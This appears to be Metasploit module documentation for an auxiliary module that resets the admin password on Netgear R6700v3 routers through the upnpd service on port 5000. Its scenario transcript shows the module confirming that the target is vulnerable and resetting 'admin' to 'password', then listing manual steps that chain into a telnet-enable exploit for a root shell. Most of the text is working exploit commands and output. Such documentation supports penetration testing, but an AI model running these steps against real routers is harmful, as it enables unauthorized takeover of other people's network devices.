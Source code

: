 ## Options

### RHOSTS

IP address of the LAN interface of the vulnerable target.

### RPORT

upnpd port on the target. Default 5000.

## Scenarios

### Netgear R6700v3 firmware version V1.0.4.84_10.0.58

```
    msf5 > use auxiliary/admin/http/netgear_r6700_pass_reset
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > show options
    
    Module options (auxiliary/admin/http/netgear_r6700_pass_reset):
    
       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    5000             yes       The target port (TCP)
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       VHOST                     no        HTTP server virtual host
    
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check
    
    [*] Target is running firmware version 1.0.4.84
    [*] 192.168.1.1:5000 - The target appears to be vulnerable.
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
    [*] Running module against 192.168.1.1
    
    [*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.84_10.0.58) as the target.
    [+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
    [*] To achieve code execution, do the following steps manually:
    [*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
    [*]     1.1- go to Advanced -> Administration -> Set Password
    [*]     1.2- Change the password from 'password' to <WHATEVER>
    [*] 2- Run metasploit as root, then:
    [*]     2.1- use exploit/linux/telnet/netgear_telnetenable
    [*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
    [*]     2.3- set rhost 192.168.1.1
    [*]     2.3- set username admin
    [*]     2.4- set password <WHATEVER>
    [*]     2.5- OPTIONAL: set timeout 1500
    [*]     2.6- OPTIONAL: set MAC <ROUTERS_MAC>
    [*]     2.7- run it and login with 'admin:<WHATEVER>'
    [*] 3- Enjoy your root shell!
    [*] Auxiliary module execution completed
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) >
```
